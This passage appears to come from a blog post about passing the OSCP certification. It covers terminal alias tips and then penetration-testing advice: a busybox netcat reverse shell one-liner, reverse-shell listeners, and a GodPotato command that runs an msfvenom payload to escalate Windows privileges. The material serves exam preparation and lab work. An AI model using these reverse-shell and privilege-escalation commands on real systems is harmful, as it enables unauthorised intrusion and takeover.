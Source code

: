 ```bash
alias ls='exa --icons'
```

![How I Passed the OSCP\_5.png](/postimgs/Images/How%20I%20Passed%20the%20OSCP_5.png)\
Colorful!

* Zoxide enhances your terminal navigation by intelligently tracking your directory usage, allowing for faster and more efficient access to frequently visited directories with minimal typing. I recommend watching this [video](https://www.youtube.com/watch?v=aghxkpyRVDY) on how it does that

```bash
 alias cd='z'
```

* pen is easier to type than penelope.py and I use this listener the most.

```bash
pen='/home/kali/Documents/penelope/penelope.py'
```

## Reverse Shells

For reverse shells use [revshells.com](https://www.revshells.com/) for both windows and Linux

For **Linux** reverse shells try using busybox first as I found that to be the most reliable:

```bash
busybox nc <ip> <port> -e sh
```

For listener use [penelope.py](https://github.com/brightio/penelope) as it automatically upgrades your shell upon receiving a connection.

![How I Passed the OSCP\_4.png](/postimgs/Images/How%20I%20Passed%20the%20OSCP_4.png)

For **Windows** try the Powershell Base64 encoded from revshells.com

And note that you can use the same reverse shell (for example reverse.exe you generated using msfvenom) multiple times.\
Once a reverse shell is connected you can start a listener again and connect to the same port once again.

Prepend *rlwrap* before netcat command so that you can navigate the terminal better.

## Windows Privilege Escalation

So listen closely as you will not find this information **anywhere**.

Sometimes you will have **SeImpersonatePrivilege** and when you use your usual potato attacks like *Juicy Potato* or *PrintSpooler* IT WILL FAIL. This is where [Godpotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) comes in which has worked for me always.\
I use msfvenom to create a payload and execute as nt authority

```powershell
GodPotato -cmd "C:\Users\Public\reverse.exe"
```
